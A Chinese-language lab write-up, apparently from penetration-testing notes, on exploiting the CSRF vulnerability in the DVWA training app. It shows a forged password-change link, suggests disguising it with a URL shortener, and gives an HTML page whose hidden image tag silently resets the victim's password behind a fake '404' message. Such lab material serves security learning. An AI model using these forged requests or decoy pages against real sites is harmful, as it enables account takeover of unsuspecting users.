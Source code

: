 **漏洞利用**

`http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

当受害者点击了这个链接，他的密码就会被改成 password(这种攻击显得有些拙劣，链接一眼就能看出来是改密码的，而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了)

需要注意的是，CSRF 最关键的是利用受害者的 cookie 向服务器发送伪造请求，所以如果受害者之前用 A 浏览器登录的这个系统，而用 B 浏览器点击这个链接，攻击是不会触发的，因为 B 浏览器并不能利用 Chrome 浏览器的 cookie，所以会自动跳转到登录界面。

有人会说，这个链接也太明显了吧，不会有人点的，没错，所以真正攻击场景下，我们需要对链接做一些处理。

**漏洞利用2**

我们可以使用短链接来隐藏 URL(点击短链接，会自动跳转到真实网站)，自寻搜索"短网址工具 "

**漏洞利用3**

可以构造攻击页面，现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成 CSRF 攻击。这里为了方便演示，就在本地写一个 test.html，下面是具体代码。

```html
<img src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```
![image](../../../img/渗透/实验/dvwa/dvwa13.png)
